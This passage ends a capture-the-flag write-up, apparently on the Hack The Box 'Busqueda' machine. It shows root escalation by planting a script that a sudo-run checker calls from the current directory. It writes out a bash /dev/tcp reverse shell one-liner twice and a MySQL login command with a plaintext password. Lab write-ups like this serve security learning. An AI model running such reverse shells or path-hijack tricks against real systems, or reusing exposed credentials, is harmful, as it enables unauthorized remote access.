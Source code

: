 ### RCE as root

The script runs! 

Thinking about this though, the system-checkup.py script ran with the full-checkup argument runs the full-checkup.sh script ... but from the current directory. If there is a full-checkup.sh script located elsewhere, the user will have arbitrary command execution as root.

With the following reverse shell payload script and a netcat listener spun up, running the previous command will send a shell to the attack box.

```
#!/bin/bash

bash -c "bash -i >&/dev/tcp/<IP>/4444 0>&1"
```

![](assets/img/posts/htb-busqueda/root-shell.png)

With root, there is full shell access!


## Reflection

A reflection of what was learned through this box. 

### Useful Commands

**Bash Reverse Shell**: `bash -c "bash -i >&/dev/tcp/<IP>/4444 0>&1"`

**Connect to a MySQL server and select a database**: `mysql -h 127.0.0.1 -u root -pjI86kGUuj87guWr3RyF gitea`
